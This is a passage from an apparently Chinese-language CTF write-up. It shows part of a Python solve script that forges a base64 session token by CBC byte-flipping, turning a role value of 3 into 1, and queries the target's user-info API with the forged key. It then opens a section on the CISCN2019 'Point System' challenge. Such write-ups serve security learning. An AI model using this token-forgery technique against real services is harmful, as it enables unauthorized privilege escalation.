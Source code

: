 ```python
def get_user_info(key):
    r = requests.post("http://" + host + ":" + str(port) + "/frontend/api/v1/user/info", headers={"Key": key})
    if r.json()['code'] == 100:
        print("获取成功！")
    return r.json()['data']

def modify_role_plain(key, role):
    user_key_decode = base64.b64decode(user_key)
    user_key_json_decode = json.loads(user_key_decode)
    user_key_json_decode['role'] = role
    return base64.b64encode(bytes(json.dumps(user_key_json_decode), 'utf-8')).decode('utf-8')

user_key = cbc_attack(
    "eyJzaWduZWRfa2V5IjoiU1VONGExTnBibWRFWVc1alpWSmhVS\
HNGUVI0bG41VkZDOUwwOWVjaGtZaFRXUWdpd1pvaGoyN0pXdDk4Lysx\
WldiMU1CUTNxVEplL2lGcExsbTlUNGxFQkZrOFNmQ1lvRW96MTdMQlp\
jV25VOS92WkxuMHBiVVliakF3RUJqV0s1ZldXb3ZIeG1JRG9wRHFHTVF\
jQ0tBPT0iLCJyb2xlIjozLCJ1c2VyX2lkIjoxLCJwYXlsb2FkIjoiMVU1\
Rm0zWGk3VE12dllGaFZxQkluVWZ2MGJxNEFpTWYiLCJleHBpcmVfaW4iO\
jE1NzA1MjU0MTB9", 0, '{"role":3,"user_', '{"role":1,"user_')
user_key = modify_role_plain(user_key, 1)
print(user_key)
```

### ****[CISCN2019 东北赛区 Day2 Web3]Point System****

Robots.txt

![Untitled](%E6%80%9D%E8%B7%AF%20e0fa6f8ee23a464bbf26d33136685e05/Untitled%206.png)

访问后发现是一个API的文档
